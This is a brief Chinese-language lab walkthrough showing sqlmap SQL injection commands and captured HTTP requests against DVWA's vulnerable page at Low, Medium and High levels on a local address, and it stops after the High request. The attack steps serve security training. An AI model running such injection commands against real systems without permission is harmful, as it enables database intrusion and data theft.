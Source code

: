 Low

```
┌──(root㉿kali)-[~]
└─# sqlmap -u "http://192.168.1.76/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "security=low; PHPSESSID=q8uc96fhrl7nb0oade3jt6tcc0" --level 5 --risk 2 -f -b --beep
```

> 需要登录的网站要调用 `cookie` ，否则会在登录页面注入

Medium

```
┌──(root㉿kali)-[~]
└─# vim http.txt
```

```http
POST /DVWA/vulnerabilities/sqli/ HTTP/1.1
Host: 192.168.1.76
Content-Length: 18
Cache-Control: max-age=0
Origin: http://192.168.1.76
DNT: 1
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.1.76/DVWA/vulnerabilities/sqli/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=7sfpgusikf8ibfe74qp23phik5; security=medium
Connection: close

id=1&Submit=Submit
```

```
┌──(root㉿kali)-[~]
└─# sqlmap -r "http.txt" --level 5 --risk 2 -f -b --beep
```

> 需要以 POST 方式注入的网站要读取请求头

High

```
┌──(root㉿kali)-[~]
└─# vim http.txt
```

```http
POST /DVWA/vulnerabilities/sqli/session-input.php HTTP/1.1
Host: 192.168.1.76
Content-Length: 18
Cache-Control: max-age=0
Origin: http://192.168.1.76
DNT: 1
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.1.76/DVWA/vulnerabilities/sqli/session-input.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=jdo75sb7vl2js0f8lscfsi5rd7; security=high
```